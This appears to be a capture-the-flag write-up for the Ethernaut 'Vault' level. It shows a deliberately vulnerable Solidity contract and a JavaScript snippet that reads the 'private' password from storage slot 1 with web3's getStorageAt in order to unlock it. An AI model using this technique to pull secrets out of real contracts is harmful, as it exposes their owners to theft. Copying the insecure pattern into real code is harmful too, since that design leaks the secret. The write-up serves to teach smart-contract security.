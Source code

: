 # Vault

> Unlock the vault to pass the level!

```solidity
pragma solidity ^0.4.18;

contract Vault {
  bool public locked;
  bytes32 private password;

  function Vault(bytes32 _password) public {
    locked = true;
    password = _password;
  }

  function unlock(bytes32 _password) public {
    if (password == _password) {
      locked = false;
    }
  }
}
```

It seems we need to leak the password. From the docs, we know that:

> Everything that is inside a contract is visible to all external observers. Making something private only prevents other contracts from accessing and modifying the information, but it will still be visible to the whole world outside of the blockchain.

We get our Vault instance and try to get the password directly from our instance's storage.

```javascript
function getStorageAt (address, idx) {
  return new Promise (function (resolve, reject) {
    web3.eth.getStorageAt(address, idx, function (error, result) {
      if (error) {
        reject(error);
      } else {
        resolve(result);
      }
    })
})}

await getStorageAt(instance, 1); // 1 since "password" is the 2nd variable in storage. The 1st is "locked".
```

Now submit the secret with `contract.unlock("SECRET");` and the vault will be unlocked. Check with `await contract.locked()`.

MetaMask not accepting synchronous calls is a real pain for this game, but it's necessary overall. :/
